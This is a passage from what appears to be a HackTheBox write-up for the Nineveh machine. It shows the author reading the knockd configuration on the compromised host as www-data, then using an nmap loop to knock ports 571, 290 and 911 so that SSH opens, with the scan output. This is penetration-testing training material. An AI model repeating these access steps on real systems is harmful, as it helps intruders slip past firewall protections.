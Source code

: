 There is a RSA private key and public key hidden in the image. Notice that the username in the public key: `amrois`. This seems to indicate that there is supposed to be a SSH port open. However, recall that our `nmap` scan did not show port 22 open. Could it be that the server has some firewall rules that blocks certain ports from being knocked?

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ cat /etc/init.d/knockd
...
Just checking if there's knockd
...

www-data@nineveh:/var/www/ssl/secure_notes$ cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

Based on the `knockd` config file, we can open the `ssh` port by sending TCP packets to port `571`, `290` and `911` respectively.

```bash
┌──(root㉿shiro)-
[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# for i in 571 290 911; do nmap -Pn --max-retries 0 -p $i 10.10.10.43 && sleep 1; done
...
PORT    STATE    SERVICE
571/tcp filtered umeter
...
PORT    STATE    SERVICE
290/tcp filtered unknown
...
PORT    STATE    SERVICE
911/tcp filtered xact-backup                                                                                                                    
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# nmap 10.10.10.43
...
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.74 seconds
```
